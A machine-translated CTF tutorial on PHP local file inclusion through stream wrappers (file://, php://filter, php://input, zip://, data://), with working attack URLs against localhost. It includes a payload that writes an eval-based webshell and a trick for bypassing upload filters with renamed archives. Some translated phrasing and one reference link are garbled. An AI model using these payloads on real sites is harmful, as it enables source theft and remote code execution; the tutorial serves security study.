 # PHP Safe Learning—Pseudo-Protocol

Author: H3rmesk1t

Data: 2020.11.29

# Preface
Common files include functions: include, require, include_once, require_once, highlight_file, show_source, readfile, file_get_contents, fopen, file


#Configuration
PHP.ini:
allow_url_fopen : on is enabled by default. This option is on, which activates the URL-form fopen encapsulation protocol to enable access to URL object files, etc.
allow_url_include: off is turned off by default. This option is on, which allows URL object files, etc.
The PHP version used in this test is >=5.2, specifically 5.2, 5.3, 5.5, 7.0; the PHP version <=5.2 can be truncated using %00.

# Issue of truncation
This article is discussed with the following simple example. First, look at the following two files inclusion situations.

Situation 1: No truncation is required:
```php
http://127.0.0.1/test.php?file=file:///c:/users/ctf/desktop/flag.txt

<?php

include($_GET['file'])

?>
```

Situation 2: Need to be cut off:

```php
Testing in php version <=5.2 can be truncated using %00.

http://127.0.0.1/test.php?file=file:///c:/users/ctf/desktop/flag.txt%00

<?php

include($_GET['file'].'.php')

?>
```

**0x02 Question about whether allow_url_fopen and allow_url_include are enabled: **

# file://protocol

PHP.ini:
file:// The protocol can also be used normally under double off;
allow_url_fopen : off/on
allow_url_include: off/on

file:// is used to access the local file system, usually used in CTF to read local files and is not affected by allow_url_fopen and allow_url_include
[Reference link](http://php.net/manual/zh/wrappers.file.php)

How to use:
file:// [Absolute path and file name of the file]
http://127.0.0.1/cmd.php?file=file://D:/ctf/phpStudy/WWW/flag.txt

# php://protocol

condition:
You do not need to enable allow_url_fopen, only allow_url_include is required for php://input, php://stdin, php://memory and php://temp.

php:// accesses various input/output streams (I/O streams). In CTF, php://filter and php://input are often used. php://filter is used to read the source code, and php://input is used to execute the php code.
[Reference link](http://php.net/manual/zh/wrappers.php.php#refsect2-wrappers.php-unknown-unknown-unknown-descriptioq)
php://filter reads the source code and performs base64 encoding output, otherwise it will be directly executed as php code and will not see the source code content.
[Reference link](https://www.leavesongs.com/PENETRATION/php-filter-magic.html#_1)

PHP.ini:
php://filter can also be used normally under double off;
allow_url_fopen : off/on
allow_url_include: off/on
```bash
http://127.0.0.1/cmd.php?file=php://filter/read=convert.base64-encode/resource=./cmd.php
```
php://input can access the read-only stream of the requested original data and execute the data in the post request as PHP code.

PHP.ini:
allow_url_fopen : off/on
allow_url_include: on

Test phenomenon:

```php
http://127.0.0.1/cmd.php?file=php://input

[POST DATA] <?php phpinfo()?>

You can also POST the following content to generate a sentence: <?php fputs(fopen("shell.php","w"),'<?php eval($_POST["cmd"];?>');?>
```

# zip://, bzip2://, zlib:// protocol

PHP.ini:
zip://, bzip2://, zlib:// protocol can also be used normally under double off;
allow_url_fopen : off/on
allow_url_include: off/on
zip://, bzip2://, zlib:// are all compression streams, and can access subfiles in compressed files. More importantly, there is no need to specify a suffix name.
[Reference link](http://php.net/manual/zh/wrappers.compression.php)

【zip://Agreement】

How to use:

```php
zip://archive.zip#dir/file.txt

zip:// [Absolute path of compressed file]# [Subfile name in compressed file]

Test phenomenon:

http://127.0.0.1/cmd.php?file=zip://D:/soft/phpStudy/WWW/file.jpg%23phpcode.txt

First write the PHP code to be executed with the file name phpcode.txt, zip compress phpcode.txt, and the compressed file name is file.zip. If you can upload the zip file, you will upload it directly. If you cannot, rename file.zip to file.jpg and upload it. This can also be done in several other compression formats.
Since '#' will ignore the following parameters in the get request, the url encoding should be performed as %23 when using the get request, and the relative path is not feasible here after testing, so only absolute paths can be used.

Compress phpinfo.txt into zip. In actual combat, you can change the suffix to jpg to bypass upload restrictions.

http://192.168.43.173:8999/lsawebtest/phptest/phprotocol1.php?file=zip://C:/phpStudy/PHPTutorial/WWW/lsawebtest/phptest\phpinfo.jpg%23phpinfo.txt

Note that you need to use absolute path + url encoding#
```
【bzip2://protocol】

How to use:

```php
compress.bzip2://file.bz2

Test phenomenon:

http://127.0.0.1/cmd.php?file=compress.bzip2://D:/soft/phpStudy/WWW/file.jpg

http://127.0.0.1/cmd.php?file=compress.bzip2://./file.jpg
```

【zlib://protocol】

How to use:

```php
compress.zlib://file.gz

Test phenomenon:

http://127.0.0.1/cmd.php?file=compress.zlib://D:/soft/phpStudy/WWW/file.jpg

or

http://127.0.0.1/cmd.php?file=compress.zlib://./file.jpg
```

# data://protocol

data:// is the protocol limited by allow_url_fopen

PHP.ini:
data://protocol must be double-on to be used normally;
allow_url_fopen :on
allow_url_include: on

[Reference link](http://php.net/manual/zh/wrappers.data.php)
In the official document, allow_url_fopen should be yes.

Test phenomenon:

```bash
http://127.0.0.1/cmd.php?file=data://text/plain,<?php phpinfo()?>

http://127.0.0.1/cmd.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=

Also:

http://127.0.0.1/cmd.php?file=data:text/plain,<?php phpinfo()?>

http://127.0.0.1/cmd.php?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
```

Here is a picture:
![Insert the picture description here](https://img-blog.csdnimg.cn/img_convert/536e6294ecad380a85aa925b01e500ba.png#pic_center)
**Reference: **
[Information 1](https://www.freebuf.com/column/148886.html)
[Information 2](http://php.net/manual/zh/wrap
Pierce.PHP)